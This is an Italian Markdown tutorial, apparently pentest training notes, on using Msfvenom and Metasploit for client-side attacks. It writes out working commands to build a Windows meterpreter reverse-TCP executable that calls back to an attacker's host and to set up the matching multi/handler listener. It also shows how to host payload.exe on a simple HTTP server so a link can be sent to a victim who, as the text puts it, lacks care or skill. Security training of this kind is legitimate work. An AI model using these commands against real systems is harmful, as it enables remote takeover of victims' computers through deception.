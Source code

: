 
# Msfvenom

Un **attacco client-side** è un attacco in cui si induce un client (cioè l'utente) ad eseguire un payload dannoso sul proprio sistema. Questo permette all’attaccante di ottenere l’accesso remoto al dispositivo della vittima. Questi attacchi si basano spesso su **tecniche di ingegneria sociale**, come l’invio di documenti infetti, link contraffatti, file eseguibili mascherati o PEs.

I **PE (Portable Executable)** sono file binari tipici dei sistemi Windows, con estensione `.exe` o `.dll`, che contengono codice eseguibile. Vengono spesso utilizzati per veicolare payload all’interno di attacchi client-side, poiché Windows li esegue direttamente se attivati dall’utente.

A differenza degli attacchi client-side, gli **attacchi server-side** mirano a sfruttare vulnerabilità direttamente su un servizio esposto da un server (come Apache, MySQL, SMB, ecc.), senza bisogno del coinvolgimento dell'utente.

In questo contesto si inserisce **Msfvenom**, uno strumento da riga di comando integrato in Metasploit Framework che consente di generare, personalizzare e codificare payload dannosi per diverse piattaforme. Msfvenom nasce dalla fusione di due utility precedenti:

- `msfpayload` → serviva a generare il payload.
- `msfencode` → serviva a codificare il payload per evitarne il rilevamento.

Oggi entrambe sono state rimpiazzate da `msfvenom`.

---

## Documentazione e Payload Disponibili

Per visualizzare la documentazione:
```bash
msfvenom
```

Per elencare tutti i payload disponibili:
```bash
msfvenom --list payloads
```

---

## Stage e No-Stage Payload

I **stage payload** sono payload modulari suddivisi in due fasi: un piccolo "stager" viene eseguito inizialmente e poi scarica il resto del payload. Questo permette di ridurre la dimensione iniziale e aumentare la flessibilità.

I **no-stage payload** invece sono monolitici: tutto il codice è contenuto in un unico eseguibile, e non richiedono un secondo stadio.

**Esempio di stage payload:**
- `windows/meterpreter/reverse_tcp`

**Esempio di no-stage payload:**
- `windows/shell_reverse_tcp`

---

## Generazione di un Payload

Per generare un payload, bisogna specificare:
- L’architettura (`-a`) – es. `x86` o `x64`
- Il payload (`-p`)
- L’IP e la porta dell’attaccante (`LHOST`, `LPORT`)
- Il formato (`-f`)

Esempio:
```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > /tmp/payload.exe
```

Per visualizzare tutti i formati supportati:
```bash
msfvenom --list formats
```

---

## Attivazione del Listener

Per ricevere la connessione reverse del payload, è necessario configurare un **listener** in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_attaccante>
set LPORT <PORT>
run
```

> Il payload usato nel `multi/handler` **deve combaciare esattamente** con quello specificato in fase di generazione con `msfvenom`. In caso contrario, la sessione non verrà interpretata correttamente.

---

## Hosting del Payload

Per consegnare il file alla vittima, si può usare un server HTTP semplice:
```bash
sudo python3 -m http.server 80
```

Poi, basterà fornire alla vittima un link del tipo:
```
http://<IP_attaccante>/payload.exe
```

In ambienti di test, questo approccio consente di simulare efficacemente un attacco client-side, sfruttando la disattenzione o la mancanza di competenze della vittima.

---
